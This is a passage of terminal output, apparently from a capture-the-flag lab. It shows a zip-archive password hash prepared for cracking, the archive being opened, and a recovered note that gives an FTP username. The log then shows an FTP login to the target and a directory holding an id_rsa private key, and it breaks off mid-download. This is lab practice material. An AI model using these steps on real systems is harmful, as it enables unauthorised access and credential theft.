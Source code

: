 ```bash
ver 2.0 efh 5455 efh 7875 backups.zip/backups/note.txt PKZIP Encr: 2b chk, TS_chk, cmplen=67, decmplen=60, crc=AEE718A8 type=8
:~# ls
'=2.5,!=2.5.0,!=2.5.2,!=2.6'   Desktop        Pictures   snap
 backups.zip                   Downloads      Postman    thinclient_drives
 burp.json                     hash           Rooms      Tools
 CTFBuilder                    Instructions   Scripts
:~# cat hash
backups.zip/backups/note.txt:$pkzip2$1*2*2*0*43*3c*aee718a8*42*4a*8*43*aee7*24e2*2918f93964f9ffa39d4a5fc0d589cae4222fd228a12bc6459bf7b383bdc3cd74557af7a16783ba3217388d2db639162dcee0456f5264bb1839b0f63a28de19581bda79*$/pkzip2$:backups/note.txt:backups.zip::backups.zip
:~# cat note.txt
cat: note.txt: No such file or directory
:~# unzip backups.zip
Archive:  backups.zip
   creating: backups/
[backups.zip] backups/note.txt password: 
  inflating: backups/note.txt        
:~# cd backups
:~/backups# ls
note.txt
:~/backups# cat note.txt
@vill

James new ftp username: ftpuser
we have to work hard
:~/backups# ftp TargetIP
...
220 (vsFTPd 3.0.3)
Name (10.10.2.180:root): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-1
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-10
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-2
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-3
drwxr-xr-x    4 0        0            4096 Jul 14  2020 data-4
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-5
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-6
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-7
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-8
drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-9
226 Directory send OK.
ftp> cd data-4
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 14  2020 3
drwxr-xr-x    2 0        0            4096 Jul 14  2020 4
-rwxr-xr-x    1 1001     1001         1766 Jul 13  2020 id_rsa
-rwxr-xr-x    1 1000     1000           31 Jul 13  2020 not.txt
226 Directory send OK.
ftp> get not.txt
local: not.txt remote: not.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for not.txt (31 bytes).
```